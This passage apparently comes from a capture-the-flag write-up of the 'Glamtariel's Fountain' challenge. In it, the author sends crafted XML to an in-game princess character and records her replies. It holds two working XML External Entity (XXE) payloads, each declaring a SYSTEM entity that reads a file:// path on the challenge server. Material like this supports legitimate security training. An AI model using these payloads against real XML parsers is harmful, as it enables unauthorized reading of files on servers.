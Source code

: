 Not quite the same dialog as when we dropped the red ring on the princess through the web UI, but the fountain is encouraging us to continue.

Remembering that the princess wants a silver ring, lets see if we can give her one.

``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root[  
	<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt">
]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

| Object | Dropped On | Princess | Fountain |
| ------ | ---------- | -------- | -------- |
| silverring.txt| princess | I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!. | Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum! |

We also now have another value in the 'visit' property, telling us to go to `https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px`, where we get the following image.

![](redring-supersupersecret928164.png)

Zooming in on this and rotating it we see the text `goldring_to_be_deleted.txt`, so we now give that to the princess.

``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root[  
	<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt">
]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

| Object | Dropped On | Princess | Fountain |
| ------ | ---------- | -------- | -------- |
| goldring_to_be_deleted.txt| princess | Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them. | She's definitely hiding something. | 
